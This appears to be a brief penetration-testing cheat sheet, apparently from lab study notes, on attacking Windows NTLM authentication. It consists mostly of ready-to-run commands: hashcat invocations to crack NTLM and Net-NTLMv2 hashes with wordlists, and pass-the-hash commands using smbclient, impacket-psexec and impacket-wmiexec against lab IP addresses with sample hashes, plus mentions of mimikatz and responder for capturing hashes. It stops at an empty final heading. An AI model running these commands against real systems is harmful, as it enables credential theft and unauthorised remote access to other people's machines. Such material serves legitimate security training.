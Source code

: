 ### Cracking NTLM

extract ntlm hash using mimkatz
crack with hashcat
hashcat -m 1000 steve.hash rockyou.txt -r rules\best64.rule --force

### Passing NTLM

smbclient
crackmapexec
psexec
wmiexec

smbclient \\\\192.168.221.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

impacket-psexec -hashes 00000000000000000000000000000000:4d28cf5252d39971419580a51484ca09 jeffadmin@192.168.205.74


impacket-wmiexec -hashes 00000000000000000000000000000000:b57715dcb5b529f212a9a4effd03aaf6 jeffadmin@192.168.205.74

### Cracking Net-NTLMv2

extract hash using responder and any smb service with false share
capture the hash and crack using hashcat
hashcat -m 5600 sam.hash rockyou.txt --force

### Passing Net-NTLMv2

